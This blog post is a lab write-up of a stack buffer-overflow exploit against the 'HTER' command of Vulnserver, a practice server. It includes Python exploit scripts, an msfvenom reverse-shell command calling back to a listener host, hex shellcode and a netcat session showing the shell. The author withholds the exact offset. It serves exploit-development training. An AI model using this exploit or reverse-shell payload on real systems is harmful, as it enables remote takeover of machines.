 ```yaml
---
layout: post
title: CTP/OSCE Prep -- 'HTER' EIP Overwrite with a Twist
date: 2019-6-04
classes: wide
header:
  teaser: /assets/images/CTP/immunity.jpg
tags:
  - buffer overflow
  - Windows
  - x86
  - shellcoding
  - exploit development
  - assembly
  - python
  - OSCE
  - CTP
--- 
```

![](/assets/images/CTP/1920x1080_Wallpaper.jpg)

## Introduction

This series of posts will focus on the concepts I'm learning/practicing in preparation for [CTP/OSCE](https://www.offensive-security.com/information-security-training/cracking-the-perimeter/). In this series of posts, I plan on exploring:
+ fuzzing,
+ vanilla EIP overwrite,
+ SEH overwrite, and
+ egghunters.

Writing these entries will force me to become intimately familiar with these topics, and hopefully you can get something out of them as well! 

This particular post is about exploiting the 'HTER' command on Vulnserver. 

## Fuzzing

Long story short here, Boofuzz was giving me all kinds of different payloads which were all crashing the application but none of them were consistent. The only thing I picked up from the fuzzing payloads was:
1. Our application is vulnerable to a buffer overflow
2. All the payloads were prepended with: `"HTER "`

So I started to manually fuzz the application with just our skeleton exploit python script we've been using starting with a payload of: `'A' * 1000` and working my way up. 

The application started to crash when I got to `'A' * 3000`
```python
#!/usr/bin/python

import socket
import os
import sys

host = "192.168.1.201"
port = 9999

buffer = 'A' * 3000

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((host,port))
print s.recv(1024)
s.send("HTER " + buffer)
print s.recv(1024)
s.close()
```
Then I saw **this** in EIP. 

![](/assets/images/CTP/wtfEIP.JPG)

## EIP, wyd? 

So with 8 `A` values in `EIP` something is not normal here. Two possibilities come to mind: 
1. Our 32 bit registers can now hold 8 bytes via *magic*
2. The characters are not being interpreted/stored as ASCII, but maybe Hex? 

I'm going with option two here and testing it to see if we're right. (*Psst. I actually didn't even notice the 8 `A` until I found the offset and stuffed it with 8 `B`, but let's pretend I'm ontop of this stuff.*)

### Finding an Offset

Since we are guessing these chars are being interpreted as raw hex and not ASCII, mona is out for pattern create and pattern offset. What I did was cut my 3000 char buffer in half and made it 1500 `A` and 1500 `B` and repeated with similar techniques until I found the correct offset and was able to have my payload include only 8 `B` and all 8 ended up in `EIP`. 

![](/assets/images/CTP/8beip.png)

Since this was a more manual and creative way to find the offset, I'll leave that excercise to you and won't spoil it!

### Finding a JMP ESP

When we overflow the buffer, we see that we control `EIP` and `ESP` so basically we have everything we need to get a fully working exploit out of this, we just need a reliable way of jumping to `ESP` where we will put some NOPs and our shellcode. 

`!mona jmp -r esp` nets us the following `JMP ESP` addresses to choose from: 

![](/assets/images/CTP/hterJMP.JPG)

I went with the address at `0x625011BB`, but since our application is interpreting input as hex, we have to format it as `BB115062` in our payload since we also have to remember to format it for Little Endian. So, 1. reverse order and 2. no `\x` needed. 

Our payload now looks like this: 
```python
#!/usr/bin/python

import socket
import os
import sys

host = "192.168.1.201"
port = 9999

buffer = 'A' * <offset number :)>
buffer += 'BB115062'
buffer += 'C' * (3000 - len(buffer))

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((host,port))
print s.recv(1024)
s.send("HTER " + buffer)
print s.recv(1024)
s.close()
```

## Shellcode and Endgame

Next we just have to generate some shellcode and add our NOPs and we should be good to go. But first, let's test and make sure our exploit worked. A cool thing about the program interpreting our characters as hex is that our `C` buffer will be interpreted as pairs of `CC` which is the opcode for `INT3` which will effectively become a breakpoint for us since it's an interrupt. Pretty cool way to see if our `JMP ESP` worked as intended. If it did, we should see `EIP` pointing to the top of a stack of `INT3` opcodes. 

![](/assets/images/CTP/INT3.JPG)

Everything looks good!

Let's generate some shellcode with the following command (notice we used the `-f hex` option): `msfvenom -p windows/shell_reverse_tcp lhost=192.168.1.206 lport=443 -f hex EXITFUNC=thread -b "\x00"`

All we need to do now is add some NOPs to prepend our shellcode, they will simply be input into our script as `90` since we're dealing in hex. 

### Final Exploit Code Minus Offset ;)

```python
#!/usr/bin/python

import socket
import os
import sys

host = "192.168.1.201"
port = 9999

shellcode = ("ddc5bafbebb770d97424f45e2bc9b15283eefc31561303adf85585ad171b664de87ce"
"ea8d9bc94b94a0ddeef66e6b21bfc8a1a2cb5217d034619bd02c46092e4f5aae7e532d60ab7eb9cb92"
"79fe901ccd3fc0131a3ff20e4bf59e30713d2aa1f70df659442ab777c9b54db4113a72586945850fee"
"6e563c59531e1dd3eb15139be1607caccd34394d0e280afed6f277f642b0c5b2cef2dfa885e511c733"
"ef7579e2b8a3af798a7c407b7b0b735186b5f76d1b59879c8023684f3721f43a7223762c8a8c78b1d7"
"e9723ce3f4784bed78d0be0c8aec18963558275db549c1e1e56216497b04b8afe6be4335be795bc718"
"29637767358b0f3670d304ed5984f647146dde38101febbd64630b2b27a6b6ca086ed57605dce56691"
"06a7d79ec73392da025979b069c5975d1733011a4bf8367a99575871840c0b89504c4c1cbb42b1848d"
"4c988a57d545904e067b44b1de43c34daf43531a6b2a64bb756c8f8b872")

buffer = 'A' * <offset number>
buffer += 'BB115062'
buffer += '90' * 16 
buffer += shellcode
buffer += 'C' * (3000 - len(buffer))

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((host,port))
print s.recv(1024)
s.send("HTER " + buffer)
print s.recv(1024)
s.close()
```

And we catch our reverse shell!
```terminal_session
astrid:~/ # nc -lvp 443                                                                                           
listening on [any] 443 ...
192.168.1.201: inverse host lookup failed: Unknown host
connect to [192.168.1.206] from (UNKNOWN) [192.168.1.201] 49314
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.
 ' is not recognized as an internal or external command,
operable program or batch file.

C:\Users\IEUser\Desktop>
```

## Conclusion

All in all, a pretty easy exploit compared to the things we've been doing but little curveballs like the hex characters can really stop progress for a while. It took me a while to figure out what was going on as I had never encountered this before and my go-to's like Mona weren't helping. Thanks for reading!

## Resources

+ [Do Buffer Overflow Good](https://github.com/justinsteven/dostackbufferoverflowgood)
+ [Finding Bad Characters](https://bulbsecurity.com/finding-bad-characters-with-immunity-debugger-and-mona-py/)
+ [Intro to Boofuzz](https://zeroaptitude.com/zerodetail/fuzzing-with-boofuzz/)
+ [Vulnserver EIP Overwrite](https://captmeelo.com/exploitdev/osceprep/2018/06/27/vulnserver-trun.html)
+ [Vulnserver LTER EIP Overwrite](https://www.doyler.net/security-not-included/vulnserver-lter-eip-overwrite)
+ [Mona Guide](https://www.corelan.be/index.php/2011/07/14/mona-py-the-manual/)
+ [Immunity Debugger Basics](https://hsploit.com/immunity-debugger-basics/)
+ [Wallpaper](https://imgur.com/0S9DVnQ)
